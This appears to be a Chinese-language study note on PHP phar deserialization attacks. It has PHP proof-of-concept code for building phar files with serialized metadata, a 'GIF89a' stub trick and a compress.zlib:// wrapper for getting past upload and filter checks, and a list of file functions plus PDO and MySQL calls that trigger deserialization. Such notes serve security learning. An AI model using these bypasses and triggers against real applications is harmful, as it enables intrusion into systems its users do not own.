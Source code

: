 ### 参考

[php反序列化拓展攻击详解--phar - 先知社区](https://xz.aliyun.com/t/6699?time__1311=n4%2BxnD0Dg7KQq0KGQ3DsA3xCwLq0xRDAK4NoEQx#toc-4)

### Phar反序列化介绍

#### phar介绍

* phar类似java下的jar

### phar文件

phar文件由四部分构成：

* phar文件标识:`xxx<?php xxx; __HALT_COMPILER();?>`，前面内容不限，但必须以`__HALT_COMPILER();?>`来结尾，否则phar扩展将无法识别这个文件为phar文件

```php
<?php
Phar::mapPhar();
include 'phar://phar.phar/index.php';
__HALT_COMPILER();
?>
```

*  元数据:phar文件本质上是一种压缩文件，其中每个被压缩文件的权限、属性等信息都放在这部分。这部分还会以**序列化的形式**存储用户自定义的meta-data，这是上述攻击手法最核心的地方。
* 文件内容
* 签名：

![](./images/20191109112046-eb75bc68-029f-1.png)

#### phar文件生成

* 需要设置php.ini中的phar.readonly选项设置为Off

```php
<?php
    class TestObject {
    }

    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

![image-20241205171611459](./images/image-20241205171611459.png)

* 值得注意的的是，刚刚提到phar文件的标识的前面可以为任意内容，如果目标存在对文件内容的检查，可以通过在这个部分写内容来饶过一些检测

```php
<?php
    class TestObject {
    }
    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
    $o->data='hello L1n!';
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```

#### 读取phar文件和phar反序列化

* 一些函数支持phar伪协议读取phar文件，在这个过程中就会发生反序列化，函数如下

![](./images/20181022222243-f07f25fe-d605-1.png)

```txt
readgzfile
gzfile
mime_content_type
imagecreatefrompng
imagecreatefromgif
imagecreatefromjpeg
imagecreatefromwbmp
imagecreatefromxbm
imagecreatefromgd
imagecreatefromgd2
imageloadfont
simplexml_load_file
sha1_file
md5_file
getimagesize
highlight_file
show_source
php_strip_whitespace
rmdir
mkdir
get_meta_tags
opendir
dir
scandir
filesize
filetype
lstat
touch
xmlwrite_open_uri
```

接着之前的生成代码

```php
<?php 
    class TestObject {
        public function __destruct() {
            echo $this->data;
            echo 'Destruct called';

        }
    }

    $filename = 'phar://phar.phar/test.txt';
    file_get_contents($filename); 
?>
```

* 如果存在限制，可控的文件名头部不允许出现`phar://`，可以通过`'compress.zlib://phar://phar.phar/test.txt`来绕过

#### 导致phar反序列化触发的其他地方

* **开启phar写时**，postgres相关

```php
<?php
$pdo = new PDO(sprintf("pgsql:host=%s;dbname=%s;user=%s;password=%s", "127.0.0.1", "test", "root", "root"));
@$pdo->pgsqlCopyFromFile('aa', 'phar://test.phar/aa');
```

* mysql读取本地文件

```php
<?php
class TestObject {
    function __destruct()
    {
        echo $this->data;
        echo 'Destruct called';
    }
    }
    // $filename = 'compress.zlib://phar://phar.phar/test.txt';
    // file_get_contents($filename); 
    $m = mysqli_init();
    mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
    $s = mysqli_real_connect($m, 'localhost', 'root', 'root', 'test', 3306);
    $p = mysqli_query($m, 'LOAD DATA LOCAL INFILE \'phar://phar.phar/test.txt\' INTO TABLE users  LINES TERMINATED BY \'\r\n\'  IGNORE 1 LINES;'); 
?>
```





### 复现